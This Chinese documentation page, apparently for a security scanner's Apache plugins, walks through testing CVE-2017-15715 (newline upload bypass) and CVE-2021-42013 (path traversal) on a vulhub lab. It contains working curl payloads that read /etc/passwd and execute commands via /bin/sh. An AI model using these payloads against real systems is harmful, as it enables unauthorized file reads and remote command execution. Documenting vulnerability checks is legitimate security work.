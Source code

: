 ```yaml
---
sidebar_position: 14
---
```

# Apache插件使用

## 1 CVE-2017-15715

**插件id：**

f7c170b3-77de-4af3-8551-6da4ce1bd471

**漏洞描述：**

Apache HTTPD换行解析漏洞，Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.0~2.4.29版本中存在一个解析漏洞，在解析PHP时，1.php\x0A将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

**测试过程：**

vulhub靶场访问测试网站，上传一个php文件，被拦截

![](/img/products/yakit/apache-1.png)

在test.php后面插入一个\x0A，成功上传

![](/img/products/yakit/apache-2.png)

访问刚才上传的/test.php%0A，发现能够成功解析

![](/img/products/yakit/apache-3.png)

## 2 CVE-2021-42013

**插件id：**

239d9646-1ca4-471e-a9b4-5ab0534f759b

**漏洞描述：**

Apache HTTP Server 2.4.50 路径穿越漏洞，攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

**测试过程：**

vulhub靶场访问测试网站，使用.%%32%65进行漏洞利用，成功读取到/etc/passwd

```go
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![](/img/products/yakit/apache-4.png)

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令

```go
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![](/img/products/yakit/apache-5.png)
